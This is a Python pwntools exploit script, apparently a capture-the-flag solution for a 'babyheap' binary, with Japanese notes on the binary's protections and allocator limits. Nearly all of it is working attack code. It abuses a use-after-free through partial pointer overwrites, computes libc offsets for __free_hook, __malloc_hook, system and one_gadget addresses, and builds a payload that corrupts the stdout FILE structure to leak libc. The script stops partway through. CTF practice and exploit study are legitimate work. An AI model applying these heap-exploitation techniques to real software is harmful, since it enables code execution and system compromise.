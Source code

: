 ```python
def edit(s, idx, data):
    select(s, EDIT_NUM)
    s.recvuntil("Enter the index:")
    s.sendline(str(idx))
    s.recvuntil("Please update the data:")
    s.send(data)


def delete(s, idx):
    select(s, DELETE_NUM)
    s.recvuntil("Enter the index:")
    s.sendline(str(idx))


if __name__ == "__main__":
    """
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    """
    """
        - malloptのせいでfastbinが使われない
        - showless
        - ポインタは12個まで(なお、create時に上書きは出来ないしdeleteで破棄もされない)
        - サイズの配列が確保されて(添字はポインタと同じ)edit時にチェックがかかるのでHeap Overflowは無し
        - freeは8回まで
    """
    elf = ELF("babyheap")
    libc = ELF("libc.so.6")
    free_hook_libc = libc.symbols["__free_hook"]
    malloc_hook_libc = libc.symbols["__malloc_hook"]
    system_libc = libc.symbols["system"] + 0x10
    one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
    main_arena_top = None
    offset = 0x7f7c26bf56a4 - 0x7f7c26830000

    s = process(elf.path)
    create(s, 0, 0x68)
    create(s, 1, 0x68)
    create(s, 2, 0x68)
    create(s, 8, 0x41)
    create(s, 10, 0x31)

    delete(s, 0)
    edit(s, 0, p64(0) + b"\xe8\x67")
    create(s, 3, 0x68)
    
    size = 0x70
    edit(s, 0, p64(size + 1) + b"\xdd\x55")
    delete(s, 1)
    delete(s, 2)
    edit(s, 2, b"\x08")

    create(s, 4, 0x68)
    create(s, 5, 0x68)
    payload = b"a" * 0x33
    payload += p64(0xfbad1880)
    payload += p64(0) * 3
    payload += b"\x60"
    create(s, 6, 0x68, payload)

```